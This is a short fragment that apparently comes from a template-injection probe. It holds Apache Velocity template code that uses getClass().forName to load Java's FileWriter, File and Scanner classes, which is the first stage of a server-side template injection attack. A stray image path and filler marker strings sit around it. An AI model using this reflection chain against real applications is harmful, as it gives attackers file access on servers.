 #set( $monkey = '888888888888888888888888=========99999999999999999999999' )
$monkey
#set ($e="exp")
#set ($a=$e.getClass().forName("java.io.FileWriter"))
$a
#set ($ab=$e.getClass().forName("java.io.File"))
$ab
#set($sc = $e.getClass().forName("java.util.Scanner"))
$sc
$monkey
